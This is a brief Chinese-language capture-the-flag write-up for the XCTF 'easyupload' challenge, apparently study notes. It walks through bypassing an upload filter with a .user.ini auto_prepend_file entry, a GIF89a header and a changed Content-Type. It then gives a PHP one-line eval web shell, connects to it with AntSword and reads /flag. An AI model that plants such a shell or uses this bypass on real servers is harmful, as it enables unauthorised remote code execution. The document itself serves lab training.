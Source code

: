 都很常规操作了





nginx考虑.user.ini

.htacess文件也是可以的

image/jpeg











# 题目实战

https://adworld.xctf.org.cn/challenges/list

## easyupload

测试一句话木马，然后发现改jpg后缀，图片马拼接等等都不行

考虑.user.ini

直接写一个.user.ini，内容为

```
auto_prepend_file=upload.jpg
```

抓包在内容前面加上GIF89a，绕过文件头检测



然后写一个一句话木马在upload.jpg

```
<?php @eval($_POST['cmd']);?> 
```



然后bp抓包记得要改

image/jpeg

将php改为=

短标签



然后蚁剑连接

```
URL：http://xxx.xx.xx.xx/uploads/index.php
密码: cmd
```



flag在根目录下面

`cat /flag`

